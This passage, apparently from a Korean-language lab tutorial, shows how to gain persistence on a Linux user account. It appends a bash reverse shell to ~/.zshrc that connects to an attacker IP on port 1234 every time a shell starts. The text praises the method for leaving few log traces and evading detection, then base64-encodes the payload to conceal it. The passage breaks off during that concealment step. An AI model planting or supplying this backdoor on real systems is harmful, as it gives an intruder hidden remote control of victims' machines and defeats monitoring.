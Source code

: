 <br>

**3. `~/.zshrc`에 코드를 삽입해준다. 그러면 쉘을 킬 때 마다 공격자 ip의 1234 포트로 연결 시도가 올 것이다.**  

`ls -al ~` 명령어를 통해 홈 디렉토리 경로의 숨김 파일의 상세정보를 봐주자.  

<br>

<img src="https://github.com/user-attachments/assets/17d4286a-e974-499f-b0d7-e23d5c02e8da" width=700>  
<img src="https://github.com/user-attachments/assets/bd04859c-34be-4dbe-9dd9-ce91c8a3a58c" width=300>  

home/kali1 경로의 파일을 쭉 보면 `/.zshrc`는 kali1 소유에 쓰기 권한이 있는 것을 쉽게 알 수 있다.  
  
<br>

**4. 이제 해당 파일에 코드를 삽입해주자.**

<br>

<img src="https://github.com/user-attachments/assets/e6014968-81cf-4b0c-bd63-419a77e3f275" width=800>   

<br>

```bash
nano ~/.zshrc
```

```bash
# Shell excution code
bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'
```

이렇게 추가해주면  
kali1이 쉘을 시작할 때마다 실행될것이다.  

확인을 해보면  
<br>

<img src="https://github.com/user-attachments/assets/9fc5b433-3754-475d-afaf-2697511674a3" width=1000>   

아무것도 없이 쉘을 실행만 해도 연결이 되어있는 것을 볼 수 있다.  

이러한 방식은 단순하지만 눈에 띄기 어렵고, 시스템 로그에 흔적이 거의 남지 않는다.  
또한 시스템 전체가 아닌 개별 사용자 영역에만 영향을 주므로 개별 사용자의 감시가 없는 보안 솔루션에서 탐지되지 않고 장기적으로 남아 있는다.  

<br>

**5. 추가 은폐 작업**  
`/.zshrc` 파일의 경우 숨겨진 파일이므로 어느정도의 은폐성이 있지만, 평문으로 기록되어 있다는 단점이 있다.  
base64 인코딩으로 통해 조금 더 알아보기 힘들게 바꿔놀 수 있다.  

<br>

<img src="https://github.com/user-attachments/assets/6196dbda-bffe-44e2-8cee-30c5da542e56" width=700>  

```bash
echo -n "bash -c 'bash -i >& /dev/tcp/172.29.180.202/1234 0>&1'" | base64
```
여기서 -n 옵션은 \n 같은 개행문자를 없애준다.  

